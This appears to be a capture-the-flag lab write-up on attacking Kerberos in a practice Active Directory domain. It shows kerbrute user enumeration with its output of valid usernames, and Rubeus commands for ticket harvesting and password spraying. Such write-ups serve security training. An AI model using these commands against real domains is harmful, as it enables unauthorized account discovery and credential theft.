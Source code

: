 ## Attacking Kerberos Authentication

### User Enumeration with kerbrute

- Add the machine IP to the hosts file `echo 10.10.22.147  CONTROLLER.local | sudo tee -a /etc/hosts`
- Download the userlist provided by the [room](https://raw.githubusercontent.com/Cryilllic/Active-Directory-Wordlists/master/User.txt)
- Test for available users in the domain

```bash
# -d = domain name
# --dc = domain controller IP

┌──(kali㉿kali)-[~/writeups/thm/attacking kerberos]
└─$ /opt/binaries/kerbrute userenum -d controller.local --dc 10.10.22.147 User.txt  -o kerbute.out

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 05/05/21 - Ronnie Flathers @ropnop

2021/05/05 14:27:12 >  Using KDC(s):
2021/05/05 14:27:12 >   10.10.22.147:88

2021/05/05 14:27:13 >  [+] VALID USERNAME:       admin1@controller.local
2021/05/05 14:27:13 >  [+] VALID USERNAME:       admin2@controller.local
2021/05/05 14:27:13 >  [+] VALID USERNAME:       administrator@controller.local
2021/05/05 14:27:15 >  [+] VALID USERNAME:       httpservice@controller.local
2021/05/05 14:27:15 >  [+] VALID USERNAME:       machine2@controller.local
2021/05/05 14:27:15 >  [+] VALID USERNAME:       machine1@controller.local
2021/05/05 14:27:15 >  [+] VALID USERNAME:       sqlservice@controller.local
2021/05/05 14:27:15 >  [+] VALID USERNAME:       user1@controller.local
2021/05/05 14:27:15 >  [+] VALID USERNAME:       user2@controller.local
2021/05/05 14:27:15 >  [+] VALID USERNAME:       user3@controller.local
2021/05/05 14:27:15 >  Done! Tested 100 usernames (10 valid) in 2.262 seconds
```

- 10 valid users from the domain is enumerated

### Enumeration with rubeus.exe

- To perform attacks using `rubeus.exe` you need access to the windows machine
- Login to the spawned machine and perform attacks using rubeus

```bash
# harverst tickets in the machine in a certain interval
rubeus.exe harvest /interval:10

# bruteforce a known password with all the available users and obtain the TGT
rubeus.exe brute /password:Password1 /noticket
```
